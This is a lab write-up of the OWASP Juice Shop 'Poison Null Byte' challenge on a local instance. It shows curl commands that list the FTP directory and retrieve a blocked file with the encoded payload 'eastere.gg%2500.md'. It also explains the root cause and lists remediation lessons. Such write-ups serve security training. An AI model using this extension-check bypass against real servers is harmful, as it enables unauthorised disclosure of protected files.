



# Poison Null Byte

## Challenge Information

- **Category:** Improper Input Validation
- **Challenge:** Poison Null Byte
- **Target:** OWASP Juice Shop running locally at `http://127.0.0.1:42000`
- **Objective:** Bypass the file-extension restriction to access a file that is not directly accessible.

## Reconnaissance / Discovery

The investigation began by examining the application's public FTP directory.

```bash
curl -sS 'http://127.0.0.1:42000/ftp/' \
  | grep -oE 'href="[^"]+"' \
  | sed 's/href=//; s/"//g'
```

The directory listing exposed files including `eastere.gg`, `encrypt.pyc`, and `suspicious_errors.yml`. These files provided candidate targets for testing the file-access restriction.

**Finding:** The directory listing disclosed files with extensions other than the allowed Markdown and PDF types.



## Attack Surface

The relevant endpoint was the public file-serving route:

`http://127.0.0.1:42000/ftp/`

The server's file-serving logic allowed filenames ending in `.md` or `.pdf`. The `eastere.gg` file did not use either extension, making it a suitable target for validating whether the extension check could be bypassed.

## Validation

First, the file was requested normally:

```bash
curl -sS -o /dev/null \
  -w 'Normal request: HTTP %{http_code}\n' \
  'http://127.0.0.1:42000/ftp/eastere.gg'
```

Observed result:

```text
Normal request: HTTP 403
```

The server rejected direct access.

Next, an encoded null-byte payload and an allowed `.md` suffix were appended:

```bash
curl --path-as-is -sS \
  -o /tmp/poison-easter-response.txt \
  -w 'Encoded request: HTTP %{http_code}\n' \
  'http://127.0.0.1:42000/ftp/eastere.gg%2500.md'

head -12 /tmp/poison-easter-response.txt
```

Observed result:

```text
Encoded request: HTTP 200
```

The response contained the Easter egg text. This confirmed that the encoded request bypassed the extension restriction and returned the underlying `eastere.gg` file.



## Exploitation

The successful request was:

```text
/ftp/eastere.gg%2500.md
```

The `%25` encoding represents the percent character. After URL decoding, the application receives the encoded null-byte sequence `%00`. The server's filename-processing logic cuts off the filename at the null-byte marker after the extension check has accepted the `.md` suffix.

This allows the server to resolve `eastere.gg` even though its extension is not on the allowlist.

The file also contained a Base64-encoded clue. Decoding it produced another encoded string, which was then decoded with ROT13:

```text
Base64-decoded:
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt

ROT13-decoded:
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

The clue path was requested, but the response had the same size and SHA-256 hash as the homepage. Therefore, the investigation did not establish that this path served a separate resource.



## Evidence

The collected evidence demonstrates:

1. The public FTP directory listing exposed candidate files.
2. Direct access to `eastere.gg` returned `403 Forbidden`.
3. The encoded request returned `200 OK` and the file contents.
4. The returned file contained a Base64 and ROT13 clue.
5. The built-in server tests identify `eastere.gg%00.md` as an intended trigger for the Easter Egg Level One challenge.

The live scoreboard state was not independently verified during this investigation.

## Security Impact

An attacker able to reach the file-serving endpoint could bypass the extension-based access restriction and retrieve files intended to be blocked. Depending on the exposed files, this could disclose backups, configuration data, or security-related information.

## Root Cause

Inspection of `/var/lib/juice-shop/build/routes/fileServer.js` showed this sequence:

1. The server checks whether the filename ends in `.md` or `.pdf`.
2. It calls `security.cutOffPoisonNullByte(file)` after the extension check.
3. It resolves and serves the processed filename.

Because validation occurs before the filename is normalized, the suffix can satisfy the allowlist while the later processing removes the encoded null-byte marker and trailing suffix. The server then serves the underlying file.

## Lessons Learned

- Validate filenames after decoding and canonicalizing input.
- Apply allowlists to the final normalized filename, not an untrusted pre-normalized value.
- Reject null bytes and other unexpected control characters.
- Avoid exposing directory listings and sensitive files through public file-serving routes.
- Test file access controls using both normal and encoded input variants.

## Conclusion

The live test confirmed a Poison Null Byte bypass in the local OWASP Juice Shop instance: a direct request for `eastere.gg` returned `403`, while the encoded request returned `200` and disclosed the file. Source inspection and built-in tests supported the explanation of the validation flaw. The scoreboard state was not independently verified.
